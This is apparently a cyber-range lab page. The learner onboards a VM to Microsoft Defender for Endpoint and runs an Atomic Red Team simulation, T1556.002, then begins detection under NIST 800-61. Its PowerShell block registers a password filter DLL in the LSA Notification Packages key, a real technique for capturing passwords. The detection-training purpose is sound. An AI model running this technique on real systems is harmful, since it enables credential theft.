 - Onboard your VM to Microsoft Defender for Endpoint (EDR). See instructions on how by **[clicking here.](https://www.skool.com/cyber-range/classroom/7ffd6346?md=8f3753c7a6244a6d891688706d46fab9)**

- **Once you created your VM, log into it. Then download and install the following tools into the VM (Get links from Intro Page):**

- Git for Windows (Choose “Git from Command Line and 3rd Party Software”. Everything else, choose the default install settings.)
    

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcYioYVoR_uylfovnolTygyYjNKzH-my6cJfXN-t_XcUcdYa7FYr77xzo2Xj5A536se6Jn2bQ_49S7IS1eBA5e3z3kawcT8MJGiYh3FGKpTATN4fWNPXYG1PgfrNqa8-ntZ8OWy?key=OzlnrPrbBmYlEQojYlWMzmor)

  

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeArEYBw0Hri1mhQuTMQU-YeUmuJnIMqk_lGKRfN6be7n24VgIpFF0sxjs042CJo78ivJicrEytJ_NqALrIfqUAxkFuNEPDbI28SAcIeff6iuXSJivyQMNaUkecCOHSrNLN6tPGvg?key=OzlnrPrbBmYlEQojYlWMzmor)

**
______
## Step 2 - Run the Atomic Script Attack

Now that our VM and MDE are setup, the next step is to run and detonate the Atomic Red malicious script into our VM and see if we can detect it. Here are the instructions to execute FROM WITHIN YOUR VM:

1. open up Powershell as an Admnistrator and run the following powershell commands in the following order:

2. git clone https://github.com/redcanaryco/atomic-red-team.git
	 This downloads the full library of Atomic Red simulated attacks into your VM, including the script we are using. 

3. Run the atomic script
```
reg.exe export HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
$passwordFilterName = (Copy-Item "#{dll_path}\#{dll_name}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
```
____________

## Step 3 -  Detection and Analysis Phase

We will be conducting our incident response investigation in accordance with NIST 800-61 guidelines, which puts us in the Detection and Analysis Phase ([Click Here](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-61r2.pdf) for NIST 800-61 Guidelines PDF):
**![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcWZEkcC5P6rK3gqJcUbyJA7fZcvp1PN-UmMiNthn4Trq8BoUS-zUePsa4p87LEwvnoOhcooV3eHmotkZnWY9ZFRj_O2GCyHgMtdC44-1ib0MDsbLnOtOEKzEUk_uCkpsCSgWf9_Q?key=OzlnrPrbBmYlEQojYlWMzmor)**
